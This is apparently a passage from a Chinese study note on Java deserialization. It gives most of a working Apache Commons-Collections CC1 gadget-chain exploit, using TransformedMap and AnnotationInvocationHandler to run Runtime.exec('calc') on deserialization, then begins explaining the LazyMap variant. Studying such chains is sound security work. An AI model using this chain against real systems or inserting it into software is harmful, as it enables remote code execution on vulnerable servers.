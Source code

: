 ```plain
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//        chainedTransformer.transform(Runtime.class);

//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);




        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);


        serialize(o);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }


    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

### EXP(CC1LazyMap):

在调用`tranforms`方法时候，除了能利用`Transformedmap`来进行调用，还可以通过使用`Lazymap`中的get方法来进行调用，然后再从`annotationInvocationHandler`的`invoke`方法中调用`Lazymap`中的`get`方法，再通过`readObject`里面调用代理类代理触发`annotationInvocation`类中的`invoke`方法：

